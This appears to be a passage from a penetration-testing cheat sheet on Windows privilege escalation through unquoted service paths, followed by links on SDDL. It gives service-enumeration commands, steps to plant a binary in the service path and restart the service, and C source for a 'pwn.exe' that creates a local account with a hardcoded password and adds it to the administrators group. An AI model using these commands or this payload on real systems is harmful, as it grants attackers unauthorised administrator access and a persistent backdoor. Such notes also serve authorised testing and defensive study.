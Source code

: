 It gives an attacker the ability to inject malious binary into path to be executed with vulnerable service permissions.

Enumerate services:

```
PS > Get-WmiObject win32_service | Select-Object Name,State,PathName | Where-Object {$_.State -like 'Running'} | findstr /vi "c:\windows"
Cmd > wmic service get name,displayname,pathname,startmode | findstr /i auto | findstr /iv c:\windows
Cmd > sc qc VulnerableSvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnerableSvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Vulnerable\Vulnerable Service\VulnerableService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Vulnerable Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Exploit `VulnerableSvc`:

```
Cmd > move pwn.exe "C:\Program Files\Vulnerable\Vulnerable.exe"
Cmd > sc stop VulnerableSvc
Cmd > sc start VulnerableSvc
...Or reboot the PC if the attacker has SeShutdownPrivilege...
Cmd > shutdown /r /t 0
```

Malious binary example:

```c
// i686-w64-mingw32-gcc -o pwn.exe pwn.c

 #include <stdio.h>
 #include <stdlib.h>

void main() {
        system("net user snovvcrash Passw0rd! /add");
        system("net localgroup administrators snovvcrash /add");
}
```



### SDDL

* [https://habr.com/ru/company/pm/blog/442662/](https://habr.com/ru/company/pm/blog/442662/)
* [0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html](https://0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html)
* [0xdf.gitlab.io/2020/06/01/resolute-more-beyond-root.html](https://0xdf.gitlab.io/2020/06/01/resolute-more-beyond-root.html)
* [https://security-tzu.com/2020/11/01/setobjectsecurity-exe-sddl/](https://security-tzu.com/2020/11/01/setobjectsecurity-exe-sddl/)
